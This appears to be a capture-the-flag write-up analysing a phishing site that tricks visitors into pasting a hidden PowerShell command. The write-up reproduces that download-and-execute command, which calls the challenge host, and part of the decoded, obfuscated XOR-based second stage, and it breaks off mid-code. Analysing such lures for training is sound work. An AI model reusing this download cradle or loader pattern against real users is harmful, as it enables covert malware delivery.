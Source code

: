 # **Challenge:** Fishy Website

**Description:**\
Dear TodayMoon8357,\
\
Found this fishy website URL on my e-mail and it started to do some crazy stuff on my computer. I have captured some network traffic that may help you find out what is happening on my computer. Thanks a lot for the help!\
\
Regards,\
k3ng\
**Attachments:** capture.pcapng\
**Links:** [Site no longer active, only screenshots available]

**Solution:**
The context of this challenge describes the aftermath of a user having clicked on a suspicious link. They have given us the link to the website as well as a network traffic capture of the event. 

<p align="center"><img width="1600" height="679" alt="image" src="https://github.com/user-attachments/assets/9718c000-010d-4e95-9d9b-b84068cecd49" /></p>

The capture is overwhelming with information, most of which is not related to the weird activity. We don't know when the attack started or ended. Thankfully, the provided web link allows us to investigate this situation further.

<p align="center"><img width="814" height="525" alt="image" src="https://github.com/user-attachments/assets/4fe2135a-504f-4c9b-9cef-7105e1b54b73" /></p>

The website hosts a quick login page. We don't have credentials for a valid user on the site, but as it turns out, none are needed. A random login entry redirects us to this "validation" page with questionable instructions.

<p align="center"><img width="520" height="417" alt="image" src="https://github.com/user-attachments/assets/28ac0cb1-9e5b-4b54-8af9-80c53d264c5e" /></p>

Command
```powershell
powershell -nop -w hidden -c "iex (New-Object Net.WebClient).DownloadString('https://misc-fishy-website-a409b2d62edf.2025.ductf.net/verify/script')"
```

Keywords such as "Net.WebClient" and "DownloadString" as well as a Google search for "powershell iex" indicate that these are instructions to download a script and execute it. This script is likely installing malicious programs onto the system. We can confirm that by downloading the script's source code (but not executing it). 

<p align="center"><img width="1339" height="498" alt="image" src="https://github.com/user-attachments/assets/a49cf219-8f5b-45cc-bf3b-0e57d69a050d" /></p>

The script file contains yet another command that decodes the text from Base64 (Google "powershell encodedcommand parameter syntax") to UTF-16 (PowerShell works in UTF-16LE). When converted, it becomes an obfuscated PowerShell script.

```powershell
               $BBB88B8B888BBB88 = 0xf1,
                  0x6e,
    0xcd,
 0xc6,0x79,0x4c,0x66,0xd1,0x02,
          0xf8,0x33,0xc4,0x86,
                 0xe7,0xa4,
                      0x35,0x8d,
  0x69,0xbd,0xd2,0x1d,0x50,0xf5,0xfb,0xdf,0xec,0xaf,
     0x0b,0x9e,0x53,
    0xa4,0xd3
  function IIlIlIlIllIIllIl {
     param([int[]]$BBBB8888BBBBB8BB, [int]$BB8BB8B8BBB8B8B8)
                    $B8B8B8B8B8B8B8BB = ""
             foreach ($B888BB88888BBBBB in $BBBB8888BBBBB8BB) {
                        $B8B8B8B8B8B8B8BB += [char]($B888BB88888BBBBB -bxor $BB8BB8B8BBB8B8B8)
           }
```